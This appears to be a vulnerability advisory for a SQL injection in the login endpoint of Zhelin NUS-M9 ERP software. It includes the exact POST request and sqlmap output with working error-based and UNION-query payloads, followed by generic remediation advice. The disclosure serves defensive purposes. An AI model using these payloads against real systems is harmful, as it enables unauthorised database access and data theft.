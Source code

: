 ## Zhelin NUS-M9 ERP Management Software for the Mechanical Industry

**Zhelin Information Technology Co., Ltd. (abbreviated as Zhelin Software)** is a high-tech internet data company focused on the mechanical industry. The company specializes in the development, consulting, implementation, and services of enterprise management information software platforms. A SQL injection vulnerability has been identified in Zhelin NUS-M9 ERP management software for the mechanical industry.

## Info

哲霖NUS-M9机械行业ERP管理软件存在SQL注入漏洞。

Dongguan Jerin Information Technology Co., LTD：http://www.nuserp.com/

## Vulnerability Impact

This SQL injection vulnerability allows attackers to manipulate the database by crafting malicious SQL statements. This can lead to unauthorized access, modification, or even deletion of sensitive information within the database. The consequences may include data breaches, business disruptions, and potential further system compromise.

![1](1.png)



POST data：

```http
POST /UserWH/checkLogin HTTP/1.1
Host: 127.0.0.1:8088
Content-Length: 30
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Content-Type: application/json
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{UserCode:'123',UserPsw:'123'}
```

SQLmap data：

```sql
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: JSON-like UserCode ((custom) POST)
    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: {UserCode:'123' AND 9643 IN (SELECT (CHAR(113)+CHAR(106)+CHAR(106)+CHAR(106)+CHAR(113)+(SELECT (CASE WHEN (9643=9643) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(120)+CHAR(118)+CHAR(98)+CHAR(113))) AND 'nabh'='nabh',UserPsw:'123'}

    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: {UserCode:'123' UNION ALL SELECT NULL,NULL,NULL,NULL,CHAR(113)+CHAR(106)+CHAR(106)+CHAR(106)+CHAR(113)+CHAR(76)+CHAR(109)+CHAR(105)+CHAR(100)+CHAR(90)+CHAR(81)+CHAR(101)+CHAR(65)+CHAR(71)+CHAR(119)+CHAR(97)+CHAR(87)+CHAR(120)+CHAR(118)+CHAR(73)+CHAR(75)+CHAR(105)+CHAR(70)+CHAR(102)+CHAR(87)+CHAR(86)+CHAR(108)+CHAR(107)+CHAR(75)+CHAR(83)+CHAR(90)+CHAR(101)+CHAR(119)+CHAR(75)+CHAR(114)+CHAR(97)+CHAR(78)+CHAR(65)+CHAR(110)+CHAR(81)+CHAR(72)+CHAR(118)+CHAR(114)+CHAR(122)+CHAR(105)+CHAR(113)+CHAR(120)+CHAR(118)+CHAR(98)+CHAR(113),NULL-- ugAI',UserPsw:'123'}
---
```

![sqlmap](2.png)

## Remediation Suggestions

1. **Input Validation**: Implement strict validation and sanitization of all user inputs to ensure only legitimate data is accepted.
2. **Use Prepared Statements**: Utilize prepared statements in database queries to prevent SQL injection.
3. **Principle of Least Privilege**: Ensure that database users only have the minimum necessary permissions to perform their tasks, reducing the potential attack surface.
4. **Regular Security Audits**: Conduct regular security audits of the code and database to identify and fix potential vulnerabilities promptly.
